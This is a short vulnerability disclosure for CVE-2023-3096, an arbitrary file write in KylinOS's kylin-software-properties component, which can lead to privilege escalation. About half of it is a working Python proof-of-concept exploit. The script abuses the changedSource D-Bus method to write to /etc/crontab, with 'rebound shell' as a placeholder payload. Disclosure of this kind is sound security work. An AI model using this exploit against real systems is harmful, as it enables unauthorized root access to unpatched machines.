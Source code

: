 # Kylin OS kylin-software-properties arbitrary file write vuln
Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
### CVE ID 
CVE-2023-3096
## Report
### Describe
kylin-software-properties is a component on KylinOS Desktop for setting system software properties. There is an arbitrary file writing vulnerability in the changedSource function of this component, which can lead to privilege escalation for ordinary users.
### Hazard level
High
### Affected version
kylin-software-properties < 0.0.1-130
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
#!/usr/bin/env python3

import sys
import dbus
import os

def change_source(old, new, target):
    bus = dbus.SystemBus()
    obj = bus.get_object("com.kylin.software.properties", "/com/kylin/software/properties")
    proxy = dbus.Interface(obj, "com.kylin.software.properties.interface")
    print(proxy.changedSource([old, new, target]))

change_source("#", "rebound shell", "/etc/crontab")
os.system("grep -rn 'rebound shell' /etc/crontab")
```
